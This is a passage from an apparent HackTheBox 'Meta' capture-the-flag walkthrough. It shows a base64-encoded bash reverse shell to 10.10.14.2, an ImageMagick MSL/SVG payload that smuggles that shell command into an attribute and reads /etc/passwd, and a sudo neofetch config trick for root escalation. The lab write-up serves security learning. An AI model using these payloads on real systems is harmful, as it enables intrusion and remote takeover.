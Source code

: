 
We can also try to make a reverse shell by encoding it in base64. This is the best option since dots, redirections and complex revshell commands didn't work out for me:

```bash
echo 'bash  -i >& /dev/tcp/10.10.14.2/5453  0>&1  ' | base64
  YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi81NDUzICAwPiYxICAK
```

```xml
<image authenticate='ff" `echo "YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi81NDUzICAwPiYxICAK" | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:kash.svg" height="100" width="100"/>
  </svg>
</image>
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/meta/7_1_in.png" width="90%"/>
</p>



## Privesc

With sudo -l we can see the following command

```bash
thomas@meta:/tmp$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"

# GTFOBin:
sudo /usr/bin/neofetch \"\" --config $TF
```
